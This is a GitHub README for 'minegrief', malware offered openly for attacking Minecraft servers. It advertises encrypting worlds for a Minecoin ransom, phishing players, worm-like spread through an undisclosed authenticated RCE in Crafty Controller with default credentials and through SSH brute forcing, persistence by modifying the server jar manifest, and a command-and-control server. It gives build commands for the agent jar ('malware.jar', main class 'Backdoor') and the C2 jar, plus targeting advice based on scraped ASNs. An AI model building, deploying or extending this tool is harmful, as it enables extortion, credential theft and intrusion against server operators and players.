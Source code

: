 <h1 align="center">
  <img src="https://github.com/user-attachments/assets/251374d0-b0d6-4808-91d7-9400f692101e" alt="minegrief" width="500px" height=auto>
  <br>
</h1>


## Features
Encrypt Minecraft worlds and demand a Minecoin ransom.
<video src="https://github.com/user-attachments/assets/2db17e66-bf90-494a-bf67-0815976330ec" autoplay muted loop playsinline style="max-width: 100%;"></video>

Phish connecting Minecraft players.

<video src="https://github.com/user-attachments/assets/67b052fb-45ac-42bb-96d5-a57c177bd353" autoplay muted loop playsinline style="max-width: 100%;"></video>

Self-spreading to other Minecraft servers using an extendable, module-based lateral movement system.
  - Crafty Controller Auth'd RCE - undisclosed, unpatched, intentional(?) Auth'd RCE in Crafty Controller, a panel for Minecraft server management (https://craftycontrol.com/). Check for default creds of admin:crafty or brute force.
  - SSH brute forcing - Classic SSH brute forcing, Minegrief will copy itself over SCP and execute itself if a login is successful

Persistence/stealth by "infecting" the Minecraft server jar file via manifest entry point modification (https://docs.oracle.com/javase/tutorial/deployment/jar/manifestindex.html)

Centralized command and control for system-level control of infected servers.
<video src="https://github.com/user-attachments/assets/428ca357-8954-4efa-aafd-4754bc640040" autoplay muted loop playsinline style="max-width: 100%;"></video>


Extendable transport system, allowing for the creation of customized C2 channels.

Works on Java 8 and above.


## Notes
Lateral movement modules require minegriefagent to be built as a jar file, as modules will copy itself over in a jar to spread.

### To build the agent jarfile
Download jsch to the root directory of the repository
```bash
wget https://repo1.maven.org/maven2/com/github/mwiede/jsch/0.2.17/jsch-0.2.17.jar
unzip jsch-0.2.17.jar
```

Make the jarfile
```bash
find minegriefagent -name '*.java' > sources.txt
<JAVA 1.8 DIR>/bin/javac -d build-manual @sources.txt
cp -r com/jcraft build-manual/com
echo 'Manifest-Version: 1.0\nMain-Class: net.minecraft.bundler.Backdoor\nBundler-Format: 1.0' > manifest.txt
<JAVA 1.8 DIR>/bin/jar cvfm malware.jar manifest.txt -C build-manual .
```

Run it
```bash
<JAVA 1.8 DIR>/bin/java -jar malware.jar
```

### To build the server jarfile
```bash
find minegriefserver -name '*.java' > sources.txt
<JAVA 1.8 DIR>/bin/javac -d build-manual @sources.txt
echo 'Manifest-Version: 1.0\nMain-Class: com.chebuya.minegriefserver.Main\nBundler-Format: 1.0' > manifest.txt
<JAVA 1.8 DIR>/bin/jar cvfm c2-server.jar manifest.txt -C build-manual .
```

Run it
```bash
<JAVA 1.8 DIR>/bin/java -jar c2-server.jar
```


## Targeting
Minecraft servers will always have Java installed so we don't have to worry about installing it ourselves.

Infected servers will receive CIDR blocks to scan from the C2. Certain ASNs have a higher frequency of Minecraft servers (ex: Digital Ocean ASNs).  I have scraped shodan/censys to find these ASNs, the data is [here](top-asn.csv)
